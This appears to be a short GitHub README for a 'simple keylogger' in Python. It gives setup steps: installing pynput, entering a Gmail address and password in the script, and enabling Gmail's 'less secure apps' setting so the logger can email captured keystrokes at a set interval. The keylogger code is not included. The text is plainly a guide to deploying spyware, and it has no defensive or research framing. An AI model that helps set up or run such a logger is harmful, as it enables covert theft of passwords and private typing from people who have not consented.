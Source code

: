 A simple keylogger that reports logged keystrokes back to a selected gmail inbox. It requires a bit of a setup to use. First, it requires pynput library to be installed:
```
pip install pynput
```
Then, it requires interval, e-mail and password paramaters to be set in a simple_keylogger.py file:
```
simple_keylogger = keylogger.Keylogger(600, "yourgmailaccount@gmail.com", "password to that account")
```
In order to send/receive e-mails from a non-trused app it is required to enable less safe apps on the specified gmail account. It can be done using this link:
```
https://myaccount.google.com/lesssecureapps
```
After enabling that function and running simple_keylogger.py using one empty e-mail is going to be sent to the specified e-mail acount - this is a sign that the script is running.
